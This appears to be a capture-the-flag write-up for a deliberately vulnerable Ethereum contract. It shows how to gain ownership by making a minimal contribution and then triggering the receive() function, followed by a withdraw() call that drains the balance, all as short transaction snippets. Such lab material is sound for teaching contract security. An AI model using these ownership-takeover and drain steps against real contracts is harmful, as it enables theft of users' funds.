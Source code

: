 # Answer

The main challenge here is to become the owner. Two ways can be used to achieve this.

## 1. Becoming the owner

### Option 1

Simply DOS the ```contribute()``` function until one exceeds the owners 1000 ether contribution.

### Option 2

Option 1 would take a long time and require a lots of gas. Luckily the contract exposes ```receive()``` function which allows for anyone to become a contract owner by transfering any amount of funds as long as the msg.sender was already a contributor. So the solution is as follows:

Become a minimal contributor:

```solidity
await sendTransaction({
    to: contract.address,
    from: player,
    data: '0xd7bb99ba', // contribute() function selector
    value: 1,
});
```

Calling the receive() method:

```solidity
await sendTransaction({
    to: contract.address,
    from: player,
    value: 1,
});
```

## 2. Reduce balance to 0

After becoming the owner, second part is rather trivial and requires only to call the ```withdraw()```.

```js
await contract.withdraw()
```